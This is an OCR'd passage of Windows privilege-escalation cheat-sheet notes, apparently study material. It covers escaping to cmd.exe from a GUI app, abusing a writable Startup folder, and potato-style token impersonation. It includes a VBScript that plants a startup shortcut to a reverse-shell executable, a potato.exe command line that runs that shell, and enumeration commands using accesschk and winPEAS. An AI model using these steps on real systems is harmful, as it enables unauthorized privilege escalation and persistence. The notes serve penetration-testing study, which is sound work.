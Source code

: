 			- (Older) versions of Windows
			- > tasklist /V | findstr mspaint.exe

		- Exploitation

			- file://c:/windows/system32/cmd.exe

	- Startup Applications

		- Detection

			- > .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
			- Builtin\Users group has write access?

		- Exploitation

			- CreateShortcut.vbs

				- Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

			- > cscript CreateShortcut.vbs

	- Installed Applications

		- Detection

			- > tasklist /v
			- > .\seatbelt.exe NonstandardProcesses
			- > .\winPEAS.exe quiet procesinfo
			- Found interesting process?

		- Exploitation

			- Find version
			- Exploit-DB

	- Hot Potato

		- Spoofing Attack / NTLM Relay

			- Exploitation

				- Copy the potato.exe
				- Start Listener
				- .\potato.exe -ip $IP -cmd "C:\PrivEsc\reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true

	- Token Impersonation

		- Rotten Potato

			- “SeImpersonatePrivilege” enabled

		- Juicy Potato

			- https://github.com/ohpe/juicy-potato
			- Listener 1
